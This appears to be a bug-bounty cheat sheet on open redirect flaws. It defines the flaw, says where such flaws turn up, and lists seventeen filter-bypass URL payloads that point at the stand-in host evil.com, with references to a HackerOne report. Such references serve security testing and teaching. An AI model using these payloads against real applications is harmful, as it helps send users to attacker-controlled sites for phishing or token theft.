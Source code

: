 ## Open Redirect

## Introduction
Open redirection vulnerabilities arise when an application incorporates user-controllable data into the target of a redirection in an unsafe way. An attacker can construct a URL within the application that causes a redirection to an arbitrary external domain

## Where to find
- Sometimes it can be found in login / register / logout pages
- Checking the javascript source code

## How to exploit
1. Try change the domain
```
/?redir=evil.com
```

2. Using a whitelisted domain or keyword
```
/?redir=target.com.evil.com
```

3. Using `//` to bypass `http` blacklisted keyword
```
/?redir=//evil.com
```

4. Using `https:` to bypass `//` blacklisted keyword
```
/?redir=https:evil.com
```

5. Using `\\` to bypass `//` blacklisted keyword
```
/?redir=\\evil.com
```

6. Using `\/\/` to bypass `//` blacklisted keyword
```
/?redir=\/\/evil.com/
/?redir=/\/evil.com/
```

7. Using `%E3%80%82` to bypass `.` blacklisted character
```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

8. Using null byte `%00` to bypass blacklist filter
```
/?redir=//evil%00.com
```

9. Using parameter pollution
```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`
```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12.  Using `?` characted, browser will translate it to `/?`
```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`
```
/?redir=target.com%23evil.com
```

14.  Host/Split Unicode Normalization
```
https://evil.c℀.example.com
```

15. Using parsing
```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass
```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`
```
/?redir=/%0d/evil.com
```

## References
* [Hackerone #1250758](https://hackerone.com/reports/1250758)
* [@ahmadbrainworks](https://medium.com/@ahmadbrainworks/bug-bounty-how-i-earned-550-in-less-than-5-minutes-open-redirect-chained-with-rxss-8957979070e5)
